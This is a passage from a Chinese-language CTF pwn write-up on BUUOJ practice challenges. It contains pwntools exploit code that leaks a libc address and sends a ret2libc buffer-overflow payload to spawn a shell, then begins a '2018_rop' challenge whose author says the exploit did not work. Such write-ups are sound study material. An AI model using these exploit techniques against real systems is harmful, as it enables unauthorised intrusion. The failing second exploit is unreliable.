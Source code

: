 ```
via=rul2()

print(hex(via))

libc=LibcSearcher("printf",via)

  

libc_base=libc_base(via,"printf")

  

system=libc_base+libc.dump("system")

binsh=libc_base+libc.dump("str_bin_sh")

  

ru(">> 6. Exit")

sl(b"5")

# ru("Please input the name of fruit:")

sl(cyclic(0xa4+4)+p32(system)+p32(sym)+p32(binsh))

  

go()
```

### 3    _2018_rop

### 考点：read溢出，write泄露libc

![[Pasted image 20240915221046.png]]

![[Pasted image 20240915221114.png]]
收获：
这一题学到了如何实现和put函数一样的功能，write函数在泄露libc的时候就可以依据write的函数的源码看，就如这个里面的第一个参数就是1，第二个就是你想输出的东西，这里可以填如got地址，第三个参数就是你想输出的字节数。

但是这一题也是有问题，打不通。。。。
以下附上我的源码。


wp
```
from pwn import*

from LibcSearcher import LibcSearcher

def init(file1,file2,x):

    if file2:

        if x:

            return process(file1),ELF(file1),ELF(file2)

        else:

            return remote("node5.buuoj.cn",25696),ELF(file1),ELF(file2)

```
